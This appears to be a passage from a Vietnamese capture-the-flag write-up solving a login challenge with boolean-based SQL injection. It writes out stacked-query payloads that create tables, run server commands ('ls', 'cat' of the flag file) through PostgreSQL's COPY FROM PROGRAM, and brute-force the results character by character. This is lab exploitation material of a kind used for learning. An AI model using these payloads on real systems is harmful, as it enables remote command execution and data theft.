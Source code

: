      ⇒ Boolean SQLi

- Mục đích của ta là đọc file flagXXXX.txt, mà ta còn chưa biết tên file, vậy nên ta cần tạo ra 1 bảng mới, lấy tên tất cả các file đưa vào bảng mới tạo, sau đó dùng boolean sqli để brute force từng ký tự của tên file
- Câu lệnh tạo bảng mới: `admin'; CREATE TABLE abc(aaa text);--`
- Sau đó ta đưa tất cả tên file vào trong bảng `abc` vừa tạo: `admin'; COPY abc FROM PROGRAM 'ls / -m';--` (Với `ls / -m`) để đưa tất cả tên file vào 1 dòng duy nhất
- Brute force từng chữ: `admin' OR (SELECT SUBSTRING(aaa,1,1) FROM abc LIMIT 1) = 'a'--`
Nếu ra `Welcome, admin...` thì là đúng
Ra `Invalid username or password!` thì ký tự đó sai

![image.png](image%207.png)

     ⇒ Tên file là `flagRoY9c.txt`

- Tương tự với cách trên, ta tạo 1 bảng chứa nội dung của file `flagRoY9c.txt`
    - `'; CREATE TABLE efg(sss text);--`
    - `'; COPY efg FROM PROGRAM 'cat /flagRoY9c.txt';--`
- Cuối cùng, dùng brute force để đọc lại bảng `efg`: `' OR (SELECT SUBSTRING(sss,1,1) FROM efg LIMIT 1) = 'a'--`

![image.png](image%208.png)
